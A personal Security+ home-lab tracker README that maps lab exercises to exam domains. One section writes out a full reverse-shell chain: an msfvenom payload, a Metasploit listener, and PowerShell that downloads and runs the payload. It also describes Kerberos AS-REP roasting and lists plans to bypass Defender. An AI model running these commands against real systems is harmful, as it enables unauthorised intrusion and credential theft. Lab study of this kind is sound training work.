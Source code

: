# 📊 CompTIA Security+ Lab Tracker (SY0-701)

This tracker maps hands-on labs in my home cybersecurity lab to the CompTIA Security+ objectives. Each section links to lab documentation and tools used.

---

## Domain 1: Attacks, Threats, and Vulnerabilities

| Lab | Status | Link |
|-----|--------|------|
| Network Reconnaissance | ✅ Complete | [nmap-scan.md](./recon_logs/nmap-scan.md)
| Exploiting CVE via Metasploit | ✅ Complete | [metasploit-cve.md](./exploitation/metasploit-cve.md)
# SECURITY+ LAB TRACKER

## Phase 1 – Exploitation

### April 21–22, 2025 — Reverse Shell Attempt via PowerShell + Evil-WinRM

**Objective:** Gain reverse shell access to the Windows Server 2025 target (192.168.1.2) from Kali Linux attacker (192.168.1.3).

**Summary:**

- Used `msfvenom` to generate a reverse shell payload:
  ```bash
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe -o revshell.exe
  ```
- Hosted payload with Python HTTP server:
  ```bash
  sudo python3 -m http.server 80
  ```
- Set up Metasploit listener:
  ```bash
  use exploit/multi/handler
  set PAYLOAD windows/x64/shell_reverse_tcp
  set LHOST 192.168.1.3
  set LPORT 4444
  run
  ```
- Transferred and attempted to execute payload on Windows Server via PowerShell:
  ```powershell
  Invoke-WebRequest -Uri http://192.168.1.3/revshell.exe -OutFile C:\Users\Public\revshell.exe
  Start-Process C:\Users\Public\revshell.exe
  ```
- **Blocked by Defender**: Execution blocked due to Defender identifying `revshell.exe` as a threat.

**Outcome:** Reverse shell payload delivery succeeded; execution was blocked by Windows Defender. Target is aware of potential threats but lacks enhanced hardening.
## 📅 2025-04-24 – Kerberos Enumeration & AS-REP Roasting

**Target:** 192.168.1.2 (Windows Server 2025 – narnia.com)  
**Tools Used:** `kerbrute`, `GetNPUsers.py (Impacket)`

### ✅ Actions Completed:
- Installed and configured `kerbrute` using Go
- Enumerated valid domain users (administrator, jdoe)
- Identified a user with **Kerberos pre-authentication disabled**
- Successfully retrieved **AS-REP hash** for offline cracking
- Logged output in:
  - `recon_logs/kerberos_enum/kerbrute_userenum_2025-04-24.md`
  - `recon_logs/kerberos_enum/asrep_roasting_2025-04-24.md`

### 🔄 Next Steps:
- Crack hash using `john` + `rockyou.txt`
- Test credentials with `evil-winrm` or `smbclient`


**Next Steps:**

- Bypass Defender via encoding/obfuscation
- Explore WMI or scheduled task payload execution
- Capture more credentials using CrackMapExec or responder-based attacks

**📄 Report:** https://github.com/olehstudycyber/Oleh-Borysovskyy/blob/main/exploitation/revshell_deployment_blocked.md


---

## Domain 2: Architecture and Design

| Lab | Status | Link |
|-----|--------|------|
| Risk Assessment & Documentation | ✅ Complete | [risk-assessment.md](./reports/risk-assessment.md)

---

## Domain 3: Implementation

| Lab | Status | Link |
|-----|--------|------|
| Active Directory Setup | ✅ Complete | [PHYSICAL_LAB.md](./PHYSICAL_LAB.md)
| Group Policy Object (GPO) Configuration | ✅ Complete | Coming soon

---

## Domain 4: Operations and Incident Response

| Lab | Status | Link |
|-----|--------|------|
| Sysmon & Windows Defender Detection | ✅ Complete | [sysmon-analysis.md](./post_exploitation/sysmon-analysis.md)
| SIEM Setup (Wazuh) | 🚧 In Progress | Coming soon

---

## Domain 5: Governance, Risk, and Compliance

| Lab | Status | Link |
|-----|--------|------|
| Windows Server Hardening | ✅ Complete | [BUILD_SERVER.md](./BUILD_SERVER.md)

---

## ✅ To-Do List

- [ ] Set up Wazuh SIEM on separate Linux machine
- [ ] Simulate brute-force and phishing attacks
- [ ] Analyze traffic using Wireshark
- [ ] Upload screenshots and logs from labs

---

> ⚠️ All labs are performed in a secure, isolated lab environment for learning and demonstration purposes only.

Happy hacking! 💻🔐

---

> Created for personal Security+ lab prep by [Your Name] – GitHub: [yourusername]

